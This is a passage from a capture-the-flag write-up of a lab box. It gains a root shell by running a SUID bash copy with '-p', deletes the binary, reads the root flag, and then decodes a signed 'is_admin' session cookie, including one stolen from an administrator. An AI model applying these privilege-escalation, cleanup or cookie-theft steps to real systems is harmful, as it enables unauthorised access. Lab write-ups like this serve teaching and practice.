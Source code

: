 I’ll run it with `-p` (`bash` will drop privileges without this) and get a root shell:

```

dvir@headless:/dev/shm$ /tmp/0xdf -p
0xdf-5.2#

```

I’ll clean up the binary and get the root flag:

```

0xdf-5.2# rm /tmp/0xdf 
0xdf-5.2# cat /root/root.txt
2694e156************************

```

## Beyond Root

### Cookie Exploration

#### Decoding

The `is_admin` cookie is made up of two base64 encoded strings with a `.` between them:

```

is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs

```

My best guess is that the first is the data and the second is a signature.

```

oxdf@hacky$ echo "InVzZXIi" | base64 -d
"user"

```

The second string is URL-safe base64-encoded (the `_` character isn’t part of the standard base64 alphabet). It decodes easily in [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9-_',true,false)To_Hexdump(16,false,false,false)&input=dUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz), albeit to random garbage (which would make sense as a signature):

[![image-20240711144613685](/img/image-20240711144613685.png)*Click for full size image*](/img/image-20240711144613685.png)

The cookie I steal is similar:

```

is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

```
